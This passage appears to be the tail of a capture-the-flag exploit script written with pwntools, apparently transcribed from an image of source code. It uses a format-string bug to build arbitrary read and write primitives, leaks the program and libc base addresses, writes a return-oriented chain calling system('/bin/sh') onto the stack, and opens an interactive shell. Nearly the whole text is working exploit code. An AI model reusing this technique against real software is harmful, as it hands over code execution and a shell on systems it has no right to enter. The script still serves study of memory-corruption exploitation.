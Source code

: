                 log.error("Bad ASLR")
                exit()
        if delta > 0xff:
                payload = "%{}c".format(ptr & 0xffff)
                payload+= "%11$hn"
        else:
                payload = "%{}c".format(ptr & 0xff)
                payload+= "%11$hhn"
        f(payload)
        _cursor = ptr

_cursor2 = 0
def cursor2(ptr):
        global _cursor2
        ptr_base = stack_leak+(40-1)*8
        delta = _cursor2 ^ ptr
        i = 0
        while delta:
                cursor(ptr_base+i)
                payload = "%{}c".format(ptr & 0xffff)
                payload+= "%39$hn"
                f(payload)
                ptr >>= 16; delta >>= 16; i+=2
        _cursor2 = ptr

def arb_read(ptr):
        cursor2(ptr)
        return f("%40$s")

def arb_write(ptr, data):
        while data:
                cursor2(ptr)
                f("%{}c%40$n".format(data & 0xffff))
                data >>= 16
                ptr+=2

# PIE reference
pie_leak = int(f("%66$p"), 16)

# Do stuff
d = DynELF(arb_read, pie_leak)
pie_base = d.libbase
log.info("pie_base: {:#x}".format(pie_base))

# Libc leak
libc_base = u64(arb_read(pie_base+0x3fb8).ljust(8, '\x00'))-0x064e10
log.info("libc_base: {:#x}".format(libc_base))
system = libc_base + 0x055410
log.info("system: {:#x}".format(system))
data = 0

# Win
arb_write(stack_leak+(int(9)-1)*8, pie_base+0x133c)
arb_write(stack_leak+(int(14)-1)*8, pie_base+0x1343) # pop rdi
arb_write(stack_leak+(int(15)-1)*8, pie_base+0x40a0+len("exit\x00")) # binsh
arb_write(stack_leak+(int(16)-1)*8, system) # system
log.info("Trying to win")
sleep(0.1)
r.sendline("exit\x00/bin/sh\x00")

r.interactive()